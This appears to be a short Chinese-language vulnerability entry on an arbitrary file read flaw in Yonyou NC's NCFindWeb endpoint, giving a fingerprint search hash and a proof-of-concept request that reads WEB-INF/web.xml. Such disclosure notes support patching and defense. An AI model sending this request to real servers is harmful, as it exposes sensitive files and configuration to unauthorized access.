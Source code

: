 # 用友 NC NCFindWeb 任意文件读取漏洞

## 漏洞描述

用友NC存在任意文件读取漏洞，攻击者通过漏洞可读取服务器敏感文件

## 漏洞影响

<a-checkbox checked>用友NC</a-checkbox></br>

## 网络测绘

<a-checkbox checked>icon_hash="1085941792"</a-checkbox></br>

## 漏洞复现

登陆页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1628351304159-f00b4a4f-a104-40f4-a8bf-1ea00cf72c98.png)

验证POC

```
 /NCFindWeb?service=IPreAlertConfigService&filename=WEB-INF/web.xml
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1628351371286-e2898425-5e54-438a-b5eb-4f20eed3636b.png)